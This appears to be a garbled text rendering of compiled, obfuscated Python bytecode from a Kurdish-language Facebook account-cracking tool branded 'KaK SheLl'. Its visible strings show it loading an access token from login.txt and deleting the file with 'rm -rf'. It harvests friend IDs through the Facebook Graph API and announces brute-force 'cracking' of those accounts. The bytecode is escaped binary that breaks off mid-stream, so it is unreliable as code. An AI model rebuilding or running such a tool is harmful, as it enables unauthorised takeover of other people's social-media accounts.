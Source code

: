 <daffa>Ri\x00\x00\x00\xc5\x00\x00\x00s"\x00\x00\x00\x00\x01\x0c\x01\x0c\x01\x05\x01\n\x01\x0c\x01\n\x01\x0c\x01\r\x01\x05\x01\n\x01\x10\x01\x0c\x01\n\x01\r\x01\n\x02\x05\x01c\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00C\x00\x00\x00s\x96\x00\x00\x00t\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01y\x19\x00t\x02\x00d\x02\x00d\x03\x00\x83\x02\x00j\x03\x00\x83\x00\x00a\x04\x00Wn7\x00\x04t\x05\x00k\n\x00r_\x00\x01\x01\x01d\x04\x00GHt\x00\x00j\x01\x00d\x05\x00\x83\x01\x00\x01t\x06\x00j\x07\x00d\x06\x00\x83\x01\x00\x01t\x08\x00\x83\x00\x00\x01n\x01\x00Xt\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01t\t\x00GHd\x07\x00GHd\x08\x00GHd\t\x00GHd\n\x00GHd\x07\x00GHt\n\x00\x83\x00\x00\x01d\x00\x00S(\x0b\x00\x00\x00NR\x00\x00\x00\x00s\t\x00\x00\x00login.txtR\x04\x00\x00\x00s)\x00\x00\x00\x1b[31;1mToken k halaya tka ya daxl bara was\x10\x00\x00\x00rm -rf login.txti\x01\x00\x00\x00s4\x00\x00\x00####################################################s1\x00\x00\x00\x1b[31;1m{1}~~Hack krdn la regay friend wa        #s1\x00\x00\x00\x1b[31;1m{2}~~Hack krdn la regay ID public kawa   #s1\x00\x00\x00\x1b[31;1m{0}~~chwna darawa                        #(\x0b\x00\x00\x00R\t\x00\x00\x00R@\x00\x00\x00RA\x00\x00\x00Rh\x00\x00\x00R^\x00\x00\x00RD\x00\x00\x00R!\x00\x00\x00R"\x00\x00\x00R]\x00\x00\x00RE\x00\x00\x00t\t\x00\x00\x00startgrab(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00
<daffa>Ro\x00\x00\x00\xda\x00\x00\x00s
\x00\x00\x00\x00\x02\r\x01\x03\x01\x19\x01\r\x01\x05\x01\r\x01\r\x01\x0b\x02\r\x01\x05\x01\x05\x01\x05\x01\x05\x01\x05\x01\x05\x01c\x00\x00\x00\x00\x0c\x00\x00\x00\x05\x00\x00\x00C\x00\x00\x00s\xf9\x02\x00\x00t\x00\x00d\x01\x00\x83\x01\x00}\x00\x00|\x00\x00d\x02\x00k\x02\x00r\'\x00d\x03\x00GHt\x01\x00\x83\x00\x00\x01n\xfe\x01|\x00\x00d\x04\x00k\x02\x00r\xaa\x00t\x02\x00j\x03\x00d\x05\x00\x83\x01\x00\x01t\x04\x00GHd\x06\x00GHt\x05\x00d\x07\x00\x83\x01\x00\x01t\x06\x00j\x07\x00d\x08\x00t\x08\x00\x17\x83\x01\x00}\x01\x00t\t\x00j\n\x00|\x01\x00j\x0b\x00\x83\x01\x00}\x02\x00|\x01\x00j\x0b\x00GHx:\x01|\x02\x00d\t\x00\x19D]\x17\x00}\x03\x00t\x0c\x00j\r\x00|\x03\x00d\n\x00\x19\x83\x01\x00\x01q\x8c\x00Wn\x14\x01|\x00\x00d\x0b\x00k\x02\x00r\x9c\x01t\x02\x00j\x03\x00d\x05\x00\x83\x01\x00\x01t\x04\x00GHt\x00\x00d\x0c\x00\x83\x01\x00}\x04\x00d\r\x00GHy>\x00t\x06\x00j\x07\x00d\x0e\x00|\x04\x00\x17d\x0f\x00\x17t\x08\x00\x17\x83\x01\x00}\x05\x00t\t\x00j\n\x00|\x05\x00j\x0b\x00\x83\x01\x00}\x06\x00d\x10\x00|\x06\x00d\x11\x00\x19\x17GHWn\'\x00\x04t\x0e\x00k\n\x00r@\x01\x01\x01\x01d\x12\x00GHt\x00\x00d\x13\x00\x83\x01\x00\x01t\x0f\x00\x83\x00\x00\x01n\x01\x00Xd\x14\x00GHt\x06\x00j\x07\x00d\x0e\x00|\x04\x00\x17d\x15\x00\x17t\x08\x00\x17\x83\x01\x00}\x01\x00t\t\x00j\n\x00|\x01\x00j\x0b\x00\x83\x01\x00}\x02\x00xH\x00|\x02\x00d\t\x00\x19D]\x17\x00}\x07\x00t\x0c\x00j\r\x00|\x07\x00d\n\x00\x19\x83\x01\x00\x01q~\x01Wn"\x00|\x00\x00d\x16\x00k\x02\x00r\xb2\x01t\x10\x00\x83\x00\x00\x01n\x0c\x00d\x17\x00GHt\x01\x00\x83\x00\x00\x01d\x18\x00t\x11\x00t\x12\x00t\x0c\x00\x83\x01\x00\x83\x01\x00\x17GHt\x05\x00d\x19\x00\x83\x01\x00\x01d\x1a\x00d\x1b\x00d\x1c\x00d\x1d\x00d\x1e\x00g\x05\x00}\x08\x00x0\x00|\x08\x00D](\x00}\t\x00d\x1f\x00|\t\x00\x17Gt\x13\x00j\x14\x00j\x15\x00\x83\x00\x00\x01t\x16\x00j\x17\x00d \x00\x83\x01\x00\x01q\xf9\x01Wd!\x00GHd"\x00GHt\x05\x00d#\x00\x83\x01\x00\x01d$\x00GHd%\x00\x84\x00\x00}\n\x00t\x18\x00d&\x00\x83\x01\x00}\x0b\x00|\x0b\x00j\x19\x00|\n\x00t\x0c\x00\x83\x02\x00\x01t\x05\x00d\'\x00\x83\x01\x00\x01t\x05\x00d(\x00\x83\x01\x00\x01d)\x00GHd*\x00t\x11\x00t\x12\x00t\x1a\x00\x83\x01\x00\x83\x01\x00\x17d+\x00\x17t\x11\x00t\x12\x00t\x1b\x00\x83\x01\x00\x83\x01\x00\x17GHd\x02\x00GHt\x04\x00GHt\x02\x00j\x03\x00d,\x00\x83\x01\x00\x01t\x05\x00d-\x00\x83\x01\x00\x01t\x05\x00d.\x00\x83\x01\x00\x01t\x05\x00d/\x00\x83\x01\x00\x01d\x02\x00GHd\x02\x00GHt\x00\x00d0\x00\x83\x01\x00\x01t\x01\x00\x83\x00\x00\x01d\x00\x00S(1\x00\x00\x00Ns\x1a\x00\x00\x00\x1b[37;1mKaK@\x1b[31;1mSheLl>> R\x0e\x00\x00\x00s+\x00\x00\x00\x1b[1;91mtkaya bosha yaka ba batale je mahelaR2\x00\x00\x00R\x00\x00\x00\x00s\'\x00\x00\x00############### S H E L L##############s"\x00\x00\x00\x1b[1;91mwar grtne ID kan \x1b[1;91m...s3\x00\x00\x00https://graph.facebook.com/me/friends?access_token=Rb\x00\x00\x00R_\x00\x00\x00Rn\x00\x00\x00s\x0b\x00\x00\x00ID fb ka : s!\x00\x00\x00@@@@@@@@@@@#KaK+SheLl#@@@@@@@@@@@s\x1b\x00\x00\x00https://graph.facebook.com/s\x0e\x00\x00\x00?access_token=s\x12\x00\x00\x00Facebook/ Name :  Re\x00\x00\x00s \x00\x00\x00\x1b[31;1mBbwra ID ka na dozra yawas\x13\x00\x00\x00[GARANAWA]enter bkas\x16\x00\x00\x00\x1b[32;1mWargrtne ID....s\x16\x00\x00\x00/friends?access_token=R8\x00\x00\x00s,\x00\x00\x00\x1b[1;91mtkaya bosha ya ka ba jwane pr kara was\x18\x00\x00\x00\x1b[32;1m HAMU ID KAN : >>s,\x00\x00\x00tkaya bosta.................................s\x04\x00\x00\x00.   s\x04\x00\x00\x00..  s\x04\x00\x00\x00... s\x04\x00\x00\x00....s\x05\x00\x00\x00.....s\x11\x00\x00\x00\r\x1b[37;1m Crackingi\x01\x00\x00\x00s/\x00\x00\x00\n                            \x1b[37;1m S H E L L s>\x00\x00\x00   \x1b[31;1m####################################################s-\x00\x00\x00          \x1b[34;1m   WAIt FOT START CRACKING  s6\x00\x00\x00